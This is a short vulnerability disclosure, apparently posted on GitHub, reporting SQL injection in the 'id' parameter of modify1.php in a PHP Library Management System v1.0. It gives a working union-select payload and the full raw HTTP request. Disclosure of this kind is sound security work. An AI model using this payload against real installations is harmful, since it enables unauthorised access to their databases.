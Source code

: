 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/modify1.php

Vulnerability location: /LMS/admin/modify1.php?id=, id

[+] Payload: /LMS/admin/modify1.php?id=1%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /LMS/admin/modify1.php?id=1%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180451756-ffab39c0-e5e4-47c0-8288-33ac8c14a14d.png)
